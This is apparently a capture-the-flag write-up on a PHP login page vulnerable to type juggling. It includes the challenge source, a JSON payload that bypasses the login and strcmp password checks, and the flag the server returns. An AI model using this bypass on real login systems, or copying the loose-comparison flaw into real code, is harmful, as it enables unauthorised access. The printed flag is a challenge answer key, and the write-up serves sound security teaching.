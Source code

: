 ```php
<?php

// $FLAG, $USER and $PASSWORD_SHA256 in secret file
require("secret.php");

// show my source code
if(isset($_GET['source'])){
    show_source(__FILE__);
    die();
}

$return['status'] = 'Authentication failed!';
if (isset($_POST["auth"]))  { 
    // retrieve JSON data
    $auth = @json_decode($_POST['auth'], true);
    
    // check login and password (sha256)
    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
}
print json_encode($return);
```

This challenge involves PHP type juggling

Given the following JSON input:

```json
{
"data":
{
"login":"a",
"password":"5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9"
}
}
```
The application checks if the provided credentials match the stored ones. However, due to PHP's loose comparison behavior, we can bypass these checks.

[docs](https://secops.group/php-type-juggling-simplified/)

![alt text](image.png)

**Bypassing the Login Check**

To bypass the login validation, I modified the login parameter to **true** or **0**, since PHP treats these as loosely equal to any string in a comparison.

**Bypassing the Password Check**

To bypass the hash check, i use the method in this [doc](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf)
```php
Instead of POSTING a password string:
password=notThePassword
Submit an array:
password[]=
PHP translates POST variables like this to an empty array which
causes strcmp() to barf:
strcmp(array(), "thePassword") -> NULL
```
```php
Lets take a look at the strcmp usage again:
if (strcmp($_POST['password'], 'thePassword') == 0) {
// do authenticated things
}
Lucky for us, thanks to type juggling, NULL == 0. Auth bypass!
```

The final payload is `{"data":{"login":0,"password":[]}}`

```
{"status":"Access granted! The validation password is: DontForgetPHPL00seComp4r1s0n\n"}
```